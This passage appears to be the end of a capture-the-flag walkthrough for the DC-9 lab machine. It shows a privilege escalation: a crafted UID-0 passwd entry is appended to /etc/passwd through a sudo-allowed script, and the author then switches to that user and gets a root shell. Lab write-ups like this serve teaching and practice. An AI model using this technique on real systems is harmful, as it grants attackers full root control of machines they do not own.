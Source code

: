 We create a file with the following (user.txt)

```bash
user:$1$buZKpXN3$NPI6IUJkJTJKQTwGdqfyo1:0:0:user:/root:/bin/bash
```

We execute script

```bash
sudo /opt/devstuff/dist/test/test user.txt /etc/passwd
```

we change the new user as root

```bash
fredf@dc-9:~$ su user
Password:
root@dc-9:/home/fredf# whoami
root
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2017.png)

And that's it

Happy Hacking!

